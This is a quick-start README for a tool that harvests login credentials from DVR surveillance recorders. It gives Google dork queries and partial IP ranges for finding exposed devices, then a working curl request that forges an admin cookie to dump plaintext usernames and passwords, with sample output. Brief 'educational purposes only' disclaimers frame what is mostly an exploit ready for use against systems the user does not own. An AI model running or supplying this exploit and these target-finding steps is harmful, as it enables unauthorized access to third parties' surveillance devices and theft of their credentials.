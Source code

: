 # Quick Start Guide: DVR Credential Scanner

This guide will help you get started with the DVR Credential Scanner tool quickly.

## Step 1: Clone the Repository

Clone this repository to your local machine:

```bash
git clone https://github.com/its-anya/DVR_Credential_Scanner.git
```

## Step 2: Install Python

Make sure you have Python 3.6 or higher installed on your system.

To check your Python version, run:
```bash
python --version
```

If Python is not installed, download and install it from [python.org](https://www.python.org/downloads/).

## Step 3: Install Required Dependencies

Navigate to the project directory:
```bash
cd DVR_Credential_Scanner
```

Install the required packages:
```bash
pip install -r requirements.txt
```

## Step 4: Finding DVR Systems to Test

For educational purposes only, here are ways to find potentially vulnerable DVR systems:

### Using Google Search (Google Dorks)

Enter these search queries in Google:
```
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

Examples of IP addresses you might find:
- 91.201.122.x (with various ports like :14)
- 59.26.65.x (often on port :69)
- 47.113.219.x (might use port :226)

⚠️ **IMPORTANT**: Only test systems that you own or have explicit permission to test. Unauthorized testing is illegal.

## Step 5: Run the Tool

### Interactive Mode (Recommended)

Simply run the script without any arguments:
```bash
python dvr_scanner.py
```

You will be prompted to:
1. Enter the target host (IP address or hostname)
2. Enter the target port (press Enter to use the default port 80)
3. After scanning, you'll be asked if you want to scan another target

### Command-line Mode

Alternatively, you can specify the target directly:
```bash
python dvr_scanner.py --host [TARGET_IP] --port [TARGET_PORT]
```

Example:
```bash
python dvr_scanner.py --host 192.168.1.100 --port 80
```

### Manual Testing with curl

You can also manually test for the vulnerability using curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

Example of a successful response:
```json
{"result":0,"list":[{"uid":"admin","pwd":"Op1234567#","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

If you don't receive a JSON response with credentials, the system is likely not vulnerable.

## Step 6: Understand the Results

If the target DVR is vulnerable, you will see output that looks like this:

```
 [+] DVR URL:		192.168.1.100:80
 [+] Total Users:	1

╭──────────────────────┬──────────────────────┬──────────────────────╮
│             Username │             Password │              Role ID │
├──────────────────────┼──────────────────────┼──────────────────────┤
│                admin │           password123│                    1 │
╰──────────────────────┴──────────────────────┴──────────────────────╯
```

This shows the username, password, and role ID for each user account on the DVR system.

## ⚠️ Important Note

This tool is for **EDUCATIONAL PURPOSES ONLY**. Using this tool against systems without explicit permission is illegal. Only use this tool on systems you own or have permission to test.

## Troubleshooting

1. **Connection Timeout**:
   - Verify the IP address and port are correct
   - Check if the target system is online
   - Make sure you can reach the target from your network

2. **Invalid JSON Response**:
   - The target system may not be vulnerable to this exploit
   - The target might be using an updated firmware that fixed the vulnerability

3. **Permission Denied Errors**:
   - Try running the script with administrator privileges

For more detailed information, refer to the README.md file. 
